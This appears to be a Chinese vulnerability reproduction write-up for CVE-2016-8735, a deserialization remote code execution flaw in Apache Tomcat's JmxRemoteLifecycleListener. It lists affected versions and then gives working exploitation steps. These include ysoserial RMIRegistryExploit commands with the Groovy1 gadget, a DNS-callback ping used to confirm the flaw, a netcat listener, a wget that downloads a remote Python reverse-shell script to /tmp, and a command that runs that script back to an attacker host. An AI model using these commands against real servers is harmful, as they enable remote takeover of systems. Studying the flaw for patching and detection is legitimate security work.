



# （CVE-2016-8735）Tomcat 反序列化漏洞

> 原文：[http://book.iwonder.run/0day/Tomcat/CVE-2016-8735.html](http://book.iwonder.run/0day/Tomcat/CVE-2016-8735.html)

## 一、漏洞简介

该漏洞与之前 Oracle 发布的 mxRemoteLifecycleListener 反序列化漏洞（CVE-2016-3427）相关，是由于使用了 JmxRemoteLifecycleListener 的监听功能所导致。而在 Oracle 官方发布修复后，Tomcat 未能及时修复更新而导致的远程代码执行。 该漏洞所造成的最根本原因是 Tomcat 在配置 JMX 做监控时使用了 JmxRemoteLifecycleListener 的方法。

## 二、漏洞影响

ApacheTomcat 9.0.0.M1 到 9.0.0.M11 ApacheTomcat 8.5.0 到 8.5.6 ApacheTomcat 8.0.0.RC1 到 8.0.38 ApacheTomcat 7.0.0 到 7.0.72 ApacheTomcat 6.0.0 到 6.0.47

## 三、复现过程

### 漏洞利用条件：

外部需要开启 JmxRemoteLifecycleListener 监听的 10001 和 10002 端口，来实现远程代码执行。

### 构造命令

Win ping 一次命令：

```
ping -n 1 qjkpla.ceye.io 
```

Linux ping 一次命令：

```
ping -c 1 qjkpla.ceye.io 
```

利用 Ceye 回显看是否存在漏洞:

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞 IP 端口 Groovy1 "ping -c Groovy1.test.qjkpla.ceye.io" 
```


DNS 回显能返回数据，说明执行了 Ping 命令，也就是说漏洞存在



直接 NC 监听服务：

```
nc -l -vv 12555 
```


然后构造命令：下载我们的反弹脚本:(之前用 bash 命令反弹没有成功所以使用 Python 脚本进行反弹)

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞 IP 端口 Groovy1 "wget http://rinige.com/back.py -O /tmp/x.py" 
```

执行完此命令继续构造命令，去执行刚在 wget 的脚本

```
java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit 漏洞 IP 端口 Groovy1 "python /tmp/x.py 反弹主机地址 反弹端口" 
```



成功反弹：




